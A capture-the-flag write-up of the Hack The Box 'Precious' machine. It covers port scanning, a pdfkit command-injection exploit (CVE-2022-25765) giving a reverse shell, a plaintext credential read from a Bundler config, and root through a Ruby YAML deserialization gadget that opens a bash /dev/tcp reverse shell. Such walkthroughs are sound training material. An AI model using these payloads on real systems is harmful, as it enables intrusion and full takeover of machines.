

<div align="center"> <script src="https://app.hackthebox.com/profile/1670709"></script> </div>

---

Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.

# Port Scan

```sh

 nmap --min-rate 10000 -p- 10.129.62.243
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 07:53 EAT
Nmap scan report for 10.129.62.243
Host is up (7.7s latency).
Not shown: 59009 filtered tcp ports (no-response), 6524 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 44.20 seconds


 nmap --min-rate 10000 -sU -p- 10.129.62.243
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 07:54 EAT
Warning: 10.129.62.243 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.62.243
Host is up (0.53s latency).
All 65535 scanned ports on 10.129.62.243 are in ignored states.
Not shown: 65452 open|filtered udp ports (no-response), 83 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 81.07 seconds

```

Aggressive scan
```sh

 nmap -sC -sV -p22,80 10.129.62.243 -o nmap

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Nmap scan after adding `precious.htb` to `/etc/hosts`
```sh
 nmap -sC -sV -p80 10.129.62.243 -o nmap80

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF

```

# Web(80)
## Enumeration

From the second nmap scan we get that the server is running `Phusion Passenger` and with a light research we get that :
```
Phusion Passenger is a free web server and application server with support for Ruby, Python and Node.js. It is designed to integrate into the Apache HTTP Server or the nginx web server, but also has a mode for running standalone without an external web server.[3] Phusion Passenger supports Unix-like operating systems, and is available as a gem package, as a tarball, or as native Linux packages
```
It's integrated with `nginx` 

From the search we also get that the `phusion passenger 6.0.15` has an exploit.But before getting to it lets visit the site.



Entering a link to our server i hits thus the server is communicating to us : 
```sh
 python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.62.243 - - [01/May/2025 08:20:43] code 404, message File not found
10.129.62.243 - - [01/May/2025 08:20:43] "GET /test HTTP/1.1" 404 -
10.129.62.243 - - [01/May/2025 08:21:21] code 404, message File not found
10.129.62.243 - - [01/May/2025 08:21:21] "GET /test HTTP/1.1" 404 -
10.129.62.243 - - [01/May/2025 08:21:49] code 404, message File not found
10.129.62.243 - - [01/May/2025 08:21:49] "GET /test HTTP/1.1" 404 -
10.129.62.243 - - [01/May/2025 08:21:53] code 404, message File not found
10.129.62.243 - - [01/May/2025 08:21:53] "GET /test HTTP/1.1" 404 -

```

To exploit this i first create a html document then host it on my python server then send the link to the page to get the pdf format of the html page.

On the server logs we see that it hits.
```sh
 python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.62.243 - - [01/May/2025 08:30:36] "GET /index.html HTTP/1.1" 200 -
10.129.62.243 - - [01/May/2025 08:30:38] code 404, message File not found
10.129.62.243 - - [01/May/2025 08:30:38] "GET /stylesheets/style.css HTTP/1.1" 404 -

```

The pdf downloads and we get:
```sh

file index.pdf 
index.pdf: PDF document, version 1.4, 1 page(s)


exiftool index.pdf 
ExifTool Version Number         : 13.10
File Name                       : index.pdf
Directory                       : .
File Size                       : 20 kB
File Modification Date/Time     : 2025:05:01 08:30:40+03:00
File Access Date/Time           : 2025:05:01 08:34:45+03:00
File Inode Change Date/Time     : 2025:05:01 08:34:31+03:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6


```

From the `exiftool` we get that the server generates the pdf's using `Generated by pdfkit v0.8.6` .Since we have the version we can look for an exploit.  
The version is vulnerable to `Command Injection` [CVE-2022-25765](https://www.exploit-db.com/exploits/51293) 
 
## Exploitation

 Run the `netcat` on your host:
```
$ nc -lvnp 1337
```

Run the exploit :
```sh
 python3  CVE-2022-25765.py -t http://precious.htb/ -a 10.10.16.11 -p 9001
[*] Input target address is http://precious.htb/
[*] Input address for reverse connect is 10.10.16.11
[*] Input port is 9001
[!] Run the shell... Press Ctrl+C after successful connection

```

On our nc :
```sh
 nc -nlvp 9001
listening on [any] 9001 ...
...[snip]...
ruby@precious:/var/www/pdfapp$ whoami
whoami
ruby
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
ruby@precious:/var/www/pdfapp$ 

```

## Lateral movement
The web shell drops us on the app directory but upon doing some enumerations we get nothing much other than the inner functioning of the application.  
But upon getting to the home directory of our current user `Ruby` we get  a config file that contains `henry's` credntials.
```sh
ruby@precious:/var/www$ cd 
cd 
ruby@precious:~$ ls
ls
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  1 01:20 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  1 01:20 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle
cd .bundle
ruby@precious:~/.bundle$ ls -la
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  1 01:20 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat  config
cat  config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ 

```

ssh as `henry` : 

	username : henry
	password : Q3c1AqGHtoI0aXAYFH

# Privilege Escalation
```sh
 ssh henry@precious.htb
...[snip]...

henry@precious:~$ whoami
henry
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
henry@precious:~$ 

```

we start off with `sudo -l`
```sh
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ 

```
  We get that we can run a script with super user priv without a password
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash -c 'bash -i >& /dev/tcp/10.10.16.11/9001 0>&1'
         method_id: :resolve

```

Then : 

```sh
nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.62.243] 45106
root@precious:/home/henry# cd
cd
root@precious:~# whoami
whoami
root
root@precious:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@precious:~# 


```